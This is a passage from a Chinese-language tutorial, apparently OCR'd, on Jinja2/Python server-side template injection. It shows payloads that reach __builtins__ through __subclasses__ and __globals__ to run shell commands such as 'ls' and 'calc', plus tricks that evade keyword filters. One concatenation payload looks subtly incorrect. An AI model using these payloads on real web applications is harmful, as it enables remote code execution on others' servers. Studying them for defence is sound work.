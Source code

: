
等得到object 对象,然后通过`__subclasses__()`方法,得到所有子类,在找重载过`__inti__,__repr__`等特殊方法的类,利用这些方法的`__globals__`得到,`__builtins__`,或者`os,codecs`等可以进行代码执行的调用.

常见payload

```
// 59 为warnings.WarningMessag
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')
```

不使用globals的payload

```
// <class 'warnings.catch_warnings'>类在在内部定义了_module=sys.modules['warnings']，然后warnings模块包含有__builtins__,
如果可以找到warnings.catch_warnings类,则可以不使用  globals

''.__class__.__mro__[2].__subclasses__()[60]()._module.__builtins__['__import__']("os").system("calc")
```

## 过滤绕过

#### 前置知识

*   利用python的魔术方法,也可以实现字典,数组取值等操作
    
*   Jinja2对模板做了特殊处理,所以通过
    

```
A['__init__']
```

也可以访问A的方法,属性

*   Jinja2 的attr 过滤器可以获得对象的属性或方法
    
*   flask内置的request对象可以得到请求的信息
    
    ```
    request.args.name
    request.cookies.name
    request.headers.name
    request.values.name
    request.form.name
    ```
    

### 关键字过滤

#### 没过滤引号

*   如果没用过滤引号,使用反转,或者各种拼接绕过

```
{{''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__['__snitliub__'[::-1]]['eval']('__import__("os").popen("ls").read()')}}

{{''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__['__buil'+'tins__'[::-1]]['eval']('__import__("os").popen("ls").read()')}}
```
